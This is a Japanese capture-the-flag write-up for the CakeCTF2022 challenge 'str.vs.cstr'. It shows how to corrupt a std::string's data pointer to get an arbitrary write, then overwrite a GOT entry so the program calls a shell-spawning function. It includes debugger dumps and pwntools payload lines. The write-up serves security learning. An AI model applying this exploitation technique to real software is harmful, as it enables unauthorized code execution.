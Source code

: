 # str.vs.cstr - CakeCTF2022

この問題は`std::string`のデータ構造を利用[^1]してGOT Overwriteで、
`call_me()`関数を呼び出すことが目的。

## 解法
シェルを起動する`call_me()`関数が用意されている。
```cpp
  void call_me() {
    std::system("/bin/sh");
  }
```

16バイト以上の文字列を`std::cin`から入力することで、
`malloc`で別途領域が確保されるようにします。
このデータのポインタを偽のポインタにしてAAWをします。

このとき「偽のポインタ」には適当なGOTのアドレスを指定することで、
GOT Overwriteで`call_me()`を呼び出せます。

```none
gef> x/50xg $rsp
...
0x7fffffffe2a8: 0x0000000000000000      0x0000000000000000
0x7fffffffe2b8: 0x0000000000000000      0x0000000000416eb0
0x7fffffffe2c8: 0x0000000000000010      0x000000000000001e
0x7fffffffe2d8: 0x0041414141414141      0x0000000000000000
```

```none
gef> heap chunks
Chunk(addr=0x405010, size=0x290, flags=PREV_INUSE)
    [0x0000000000405010    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................]
Chunk(addr=0x4052a0, size=0x11c10, flags=PREV_INUSE)
    [0x00000000004052a0    00 1c 01 00 00 00 00 00 00 00 00 00 00 00 00 00   ................]
Chunk(addr=0x416eb0, size=0x30, flags=PREV_INUSE)
    [0x0000000000416eb0    41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA]
Chunk(addr=0x416ee0, size=0xf130, flags=PREV_INUSE)  <-  top chunk
```

`0x7fffffffe2c0`にある`0x00416eb0`がデータのポインタで、ここを任意のGOTアドレスで書き換えます。
今回は`std::cout`のGOTアドレス`0x404048`を使います。
```none
gef> got
GOT protection: Partial RELRO | GOT functions: 19
           PLT (   Offset)            GOT (   Offset) Symbol -> GOTvalue
    ...
      0x401180 (  +0x1180)       0x404048 (  +0x4048) _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@GLIBCXX_3.4  ->  0x401090
      0x401190 (  +0x1190)       0x404050 (  +0x4050) _ZNSolsEPFRSoS_E@GLIBCXX_3.4  ->  0x4010a0
      0x4011a0 (  +0x11a0)       0x404058 (  +0x4058) __stack_chk_fail@GLIBC_2.4  ->  0x4010b0
    ...
      0x401200 (  +0x1200)       0x404088 (  +0x4088) _Unwind_Resume@GCC_3.0  ->  0x401110
```

上記を満たすpayloadを作成すると、データのポインタが書き換わってることが確認できます。
```python
choice("1")
setcstr(b"\x90"*0x20+ p64(e.got["_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc"])) #404048
```

```none
0x7fffffffe298: 0x0000000000000000     0x9090909090909090
0x7fffffffe2a8: 0x9090909090909090     0x9090909090909090
0x7fffffffe2b8: 0x9090909090909090     0x0000000000404048
0x7fffffffe2c8: 0x0000000000000000     0x000000000000001e
0x7fffffffe2d8: 0x0041414141414141     0x0000000000000000
```

あとは`call_me()`関数のアドレスを書き込みばシェルを起動することができます。
```python
choice("3")
setstr(p64(e.sym["_ZN4Test7call_meEv"]))
```
```none
gef> x/xg 0x0000000000404048
0x404048 <std::basic_ostream<char, std::char_traits<char> >& std::operator<< <std::char_traits<char> >(std::basic_ostream<char, std::char_traits<char> >&, char const*)@got.plt>:       0x00000000004016de
```

[^1]: https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732#stdstring
